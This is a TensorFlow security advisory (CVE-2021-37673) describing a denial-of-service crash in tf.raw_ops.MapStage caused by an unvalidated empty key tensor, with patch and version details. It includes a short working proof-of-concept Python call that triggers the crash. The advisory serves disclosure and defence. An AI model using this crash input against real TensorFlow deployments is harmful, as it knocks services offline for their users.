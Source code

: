## TFSA-2021-147: `CHECK`-fail in `MapStage`

### CVE Number
CVE-2021-37673

### Impact
An attacker can trigger a denial of service via a `CHECK`-fail in
`tf.raw_ops.MapStage`:

```python
import tensorflow as tf

tf.raw_ops.MapStage(
  key=tf.constant([], shape=[0, 0, 0, 0], dtype=tf.int64),
  indices=tf.constant((0), dtype=tf.int32),
  values=[tf.constant((0), dtype=tf.int32)],
  dtypes=[tf.int32,
  tf.int64],
  capacity=0,
  memory_limit=0,
  container='',
  shared_name='')
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/map_stage_op.cc#L513)
does not check that the `key` input is a valid non-empty tensor.

### Patches
We have patched the issue in GitHub commit
[d7de67733925de196ec8863a33445b73f9562d1d](https://github.com/tensorflow/tensorflow/commit/d7de67733925de196ec8863a33445b73f9562d1d).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
